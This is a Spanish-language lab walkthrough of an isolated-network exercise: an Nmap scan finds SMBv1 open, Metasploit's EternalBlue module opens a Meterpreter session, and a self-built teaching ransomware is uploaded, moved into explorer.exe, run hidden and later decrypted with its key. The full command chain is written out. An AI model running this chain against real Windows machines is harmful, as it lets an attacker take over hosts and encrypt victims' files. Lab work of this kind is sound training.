# 03 — Attack Walkthrough

> Laboratorio realizado en red aislada VMnet 1 (Host-Only). 
---

## Topología

| Equipo | IP | Rol |
|---|---|---|
| Kali Linux | 192.168.104.128 | Atacante |
| Windows 7 SP1 | 192.168.104.130 | Víctima |

---

## Paso 1 — Reconocimiento con Nmap

Desde Kali Linux se realizó un escaneo completo sobre la IP de la víctima para identificar puertos abiertos, versiones de servicios y posibles vulnerabilidades:

```bash
nmap -p445 -sC -sS --min-rate 5000 192.168.104.130 -Pn -n
```

- **`-p445`** - Escanea solo el puerto 445
- **`-sC`** — ejecutar scripts por defecto de Nmap
- **`-sS`** - Realiza un escaneo sigiloso
- **`--min-rate`** - Envía paquetes a una velocidad mínima de 5000 paqutes/segundo
- **`-Pn`** - No realiza ping a la víctima
- **`-n`** - Desactiva la resolución DNS



Nmap identificó el puerto **445/tcp** abierto con SMBv1 habilitado e información del sistema operativo, nombre del equipo y workgroup. Los scripts por defecto (`-sC`) también reportaron que el host era potencialmente vulnerable a **MS17-010 (EternalBlue)**.

---

## Paso 2 — Iniciar Metasploit

```bash
msfconsole
```



---

## Paso 3 — Buscar Exploits para EternalBlue

Dentro de Metasploit se buscaron los módulos disponibles para MS17-010:

```
search eternalblue
```



Se seleccionó el módulo con índice 0:

```
use exploit/windows/smb/ms17_010_eternalblue
```

---

## Paso 4 — Configurar el Exploit

```
show options
```



Se configuraron los parámetros necesarios:

```
set RHOSTS 192.168.104.130
set LHOST 192.168.104.128
set LPORT 4444
```



---

## Paso 5 — Ejecutar el Exploit y Cargar el Ransomware

```
run
```



El exploit se ejecutó exitosamente, obteniendo una sesión **Meterpreter** en el sistema víctima. Con la sesión activa, se subió el ejecutable del ransomware a una ruta excluida del cifrado:

```
upload -f /home/user/ransomware/xcrypto.exe "C:\\Users\\Public\\Documents"
```

---

## Paso 6 — Visualizar Procesos y Migrar

Se listaron los procesos activos en la víctima:

```
ps
```



EternalBlue entrega acceso inicial en **Session 0** (sesión del sistema), donde la interfaz gráfica no es visible para el usuario. Para que el ransomware pueda mostrar su pantalla en el escritorio del usuario, es necesario migrar al proceso `explorer.exe` que corre en **Session 1**:

```
migrate <PID de explorer.exe>
migrate 1116
```



---

## Paso 7 — Ejecutar el Ransomware

Con el proceso migrado al contexto del usuario:

```
execute -f "C:\\Users\\Public\\Documents\\xcrypto.exe" -H
```

- **`-f`** — ruta del archivo a ejecutar
- **`-H`** — ejecutar oculto (sin ventana de consola)

---

## Paso 8 — Comportamiento Observado

### Archivos antes del cifrado



### Pantalla del ransomware

Al ejecutarse, el ransomware cifró los archivos del TARGET y desplegó la pantalla de rescate ocupando todo el escritorio:



### Archivos después del cifrado





### Escritorio inutilizable



---

## Paso 9 — Descifrado

Al ingresar la clave correcta en el campo de la pantalla del ransomware, los archivos fueron descifrados y el sistema recuperó su estado original.

---

## Resumen del Flujo

```
[Nmap] Puerto 445 abierto — SMBv1 — MS17-010 detectado
      │
      ▼
[Metasploit] exploit/windows/smb/ms17_010_eternalblue
      │
      ▼
[Meterpreter] Sesión en Session 0
      │
      ▼
[upload] xcrypto.exe → C:\Users\Public\Documents\
      │
      ▼
[migrate] Session 0 → explorer.exe (Session 1)
      │
      ▼
[execute] xcrypto.exe cifra archivos + muestra pantalla de rescate
      │
      ▼
[Descifrado] Ingreso de clave → recuperación de archivos
```

---

## Herramientas Utilizadas

| Herramienta | Uso |
|---|---|
| Nmap | Reconocimiento de red y detección de vulnerabilidades |
| Metasploit Framework | Explotación de EternalBlue (MS17-010) |
| Meterpreter | Acceso remoto, subida de archivos, migración de proceso |
| xcrypto.exe | Ransomware didáctico compilado con PyInstaller |
